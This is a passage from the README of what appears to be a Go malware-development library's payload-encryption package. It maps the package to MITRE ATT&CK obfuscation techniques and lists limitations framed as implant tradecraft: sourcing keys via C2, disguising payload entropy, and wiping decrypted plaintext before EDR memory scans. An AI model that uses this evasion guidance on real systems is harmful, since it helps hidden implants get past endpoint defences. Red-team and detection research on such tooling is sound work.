| [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | obfuscation transforms (XOR, TEA, S-Box, Matrix, ArithShift) | D3-SEA |
| [T1027.013](https://attack.mitre.org/techniques/T1027/013/) | Encrypted/Encoded File | AEAD ciphers (AES-GCM, ChaCha20) and stream cipher (RC4) | D3-FCR |

## Limitations

- **Key distribution unsolved.** This package does not embed, derive,
  fetch, or rotate keys — it ciphers buffers. A real implant must source
  the key from somewhere (build-time embed, environment, C2 fetch). The
  weakest link in any payload-encryption design.
- **Entropy is detectable.** A 200 KB high-entropy section in a Go
  binary is suspicious by itself. Layer with non-uniform transforms
  (`ArithShift`) or split into multiple sections for cover.
- **Ephemeral plaintext still touchable.** Between decrypt and `Inject`,
  the plaintext lives on the Go heap. EDR memory scans (Defender,
  CrowdStrike) sweep RW pages — wipe the buffer *before* the next
  syscall, not after. Use `crypto.UseDecrypted(decrypt, fn)` — the
  helper runs decrypt, calls fn with the plaintext, and zeroes the
  buffer via defer (so the wipe still runs when fn errors or
  panics). Or call `crypto.Wipe(plaintext)` manually for cases that
  don't fit the closure shape.
- **Streaming AEAD only for AES-GCM and XChaCha20-Poly1305.** The
  `NewAESGCMWriter` / `NewChaCha20Writer` family handles
  multi-MB / multi-GB payloads with bounded memory (64 KiB peak)
  and per-frame tampering detection. The other primitives
  (`EncryptRC4`, `XOR`, `TEA`, `XTEA`, `MatrixTransform`,
  `SubstituteBytes`, `ArithShift`) still take the whole buffer in
  one call — for multi-MB use, layer a streaming AEAD on top
  (`AES-GCM stream → XOR/MatrixTransform inside the chunk` is the
  canonical hardening pattern).
- **Streaming framing is on the wire.** Both the chunk size
  (64 KiB) and the framing layout (4-byte header + sealed bytes)
  are deterministic and not key-derived — a defender who knows the
  package can recognise the framing on a captured stream. The
  framing carries no plaintext metadata, but its presence may
  fingerprint maldev itself.
- **RC4 broken.** Compatibility-only; do not use as the outer envelope.
- **TEA equivalent keys.** Three keys decrypt to the same plaintext;
  prefer XTEA.

## See also

- [`encode`](../encode/README.md) — transport-safe representations to
  wrap the ciphertext for HTTP / PowerShell / JSON channels.
- [`hash`](../hash/README.md) — integrity, ROR13 API hashing, fuzzy
  similarity for variant detection.
- [`cleanup/memory.SecureZero`](../cleanup/memory-wipe.md) — pair to
  wipe keys and plaintext.
- [`evasion/sleepmask`](../evasion/sleep-mask.md) — re-encrypt the
  payload during sleep windows.
- [Bernstein, *ChaCha, a variant of Salsa20*](https://cr.yp.to/chacha/chacha-20080128.pdf)
  — XChaCha20-Poly1305 source paper.
- [NIST SP 800-38D](https://csrc.nist.gov/publications/detail/sp/800-38d/final)
  — GCM specification.
